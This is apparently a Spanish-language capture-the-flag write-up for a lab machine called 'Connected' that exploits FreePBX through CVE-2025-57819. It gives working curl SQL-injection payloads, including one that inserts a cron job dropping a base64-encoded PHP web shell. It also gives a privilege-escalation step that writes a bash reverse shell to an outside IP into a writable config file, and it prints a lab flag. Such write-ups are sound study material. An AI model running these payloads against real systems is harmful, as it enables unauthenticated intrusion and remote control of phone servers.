


# Connected

# TCP/80-443

FreePBX es una interfaz gráfica de usuario basada en web de código abierto. Los puntos finales FreePBX 15, 16 y 17 son vulnerables debido a que los datos proporcionados por el usuario no están suficientemente desinfectados, lo que permite el acceso no autenticado al administrador de FreePBX, lo que lleva a la manipulación arbitraria de la base de datos y la ejecución remota de código

[https://github.com/MuhammadWaseem29/SQL-Injection-and-RCE_CVE-2025-57819](https://github.com/MuhammadWaseem29/SQL-Injection-and-RCE_CVE-2025-57819)



Entonces, ya tengo conocimiento del usuario `freepbxuser` 

Durante la enumeración de los elementos internos de FreePBX, se hizo evidente que las tareas programadas se almacenaban en una tabla de base de datos llamada **cron_jobs**. Por lo que, si se logra inyectar una entrada en dicha base de datos, se va aejecutar eventualmente.

La tabla cron_jobs posee las siguientes columnas:

```python
curl -ik "https://connected.htb/admin/ajax.php?module=FreePBX%5Cmodules%5Cendpoint%5Cajax&command=model&template=x&model=model&brand=x%27%20AND%20EXTRACTVALUE%281%2CCONCAT%28%27~%27%2C%28SELECT%20GROUP_CONCAT%28column_name%20SEPARATOR%20%27%2C%27%29%20FROM%20information_schema.columns%20WHERE%20table_schema%3DDATABASE%28%29%20AND%20table_name%3D%27cron_jobs%27%29%2C%27~%27%29%29--%20-"
HTTP/1.1 500 Internal Server Error
Date: Sat, 11 Jul 2026 01:29:47 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
X-Powered-By: PHP/7.4.16
Set-Cookie: PHPSESSID=4v9os10np7av1h8oisqd7h639j; expires=Mon, 10-Aug-2026 01:29:47 GMT; Max-Age=2592000; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Transfer-Encoding: chunked
Content-Type: application/json

{"error":{"type":"Exception","message":"SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~id,modulename,jobname,command,c'::","file":"\/var\/www\/html\/admin\/libraries\/utility.functions.php","line":123}}
```

Por lo que se podria armar el siguiente payload:

```python
curl -ik "https://connected.htb/admin/ajax.php?module=FreePBX\\modules\\endpoint\\ajax&command=model&template=x&model=model&brand=x';INSERT INTO cron_jobs (modulename,jobname,command,class,schedule,max_runtime,enabled,execution_order) VALUES ('sysadmin','wt-shell3','echo \"PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+Cg==\"|base64 -d >/var/www/html/webshell.php',NULL,'* * * * *',30,1,1)-- "
```

Esto lo que trata de hacer es inyectar un `shell.php` en `/var/www/html` 


La flag esta bajo `/home/asterisk/user.txt` y es:

38a78acd5d791eb889340f096e8dfc77

## /admin/config.php



## /admin/cxpanel

## /ucp

Este parece ser un panel de control de usuarios


Dentro tenemos tambien un panel de login, parece que neceistamos loguearnos para configurar nuestro perfil

# Escalada de privilegios

---

Una búsqueda rápida de archivos escribibles en /etc produjo varios resultados interesantes. Los archivos de configuración escribibles siempre deben investigarse porque con frecuencia son procesados por servicios privilegiados.

```python
find /etc -writable 2>/dev/null | grep -v "/etc/wanpipe\|/etc/asterisk\|/etc/schmooze" | head -20
```

echo 'bash -c "bash -i >& /dev/tcp/10.10.17.199/2026 0>&1" &' >> /etc/dahdi/init.conf
echo "restart" > /var/spool/asterisk/sysadmin/dahdi_restart
